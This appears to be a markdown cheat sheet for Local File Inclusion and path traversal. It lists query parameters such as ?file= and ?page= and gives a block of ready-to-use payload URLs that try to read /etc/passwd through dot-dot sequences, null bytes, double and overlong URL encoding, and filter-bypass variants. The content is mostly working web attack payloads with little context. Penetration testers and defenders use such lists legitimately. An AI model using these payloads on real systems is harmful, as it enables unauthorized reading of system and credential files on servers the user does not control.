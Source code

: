 ## Local File Inclusion :

**- This is a bug that allows hackers to `view`,`access`,`include` files located in the web server**

### Parameters :



```
?cat=
?dir=
?action=
?board=
?date=
?detail=
?file=
?download=
?path=
?folder=
?prefix=
?include=
?page=
?inc=
?locate=
?show=
?doc=
?site=
?type=
?view=
?content=
?document=
?layout=
?mod=
```



#### Basic payloads to testing :

```
?file=./../../../../../../../../../etc/passwd
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

// null byte
http://example.com/index.php?page=../../../etc/passwd%00

// Encoding
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00

// Filter Bypass tricks
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
Maintain the initial path: http://example.com/index.php?page=/var/www/../../etc/passwd


```



##### Intresting `Functions()` :

![](5.jpg)



## References:

[Tricks]([File Inclusion/Path traversal - HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion))


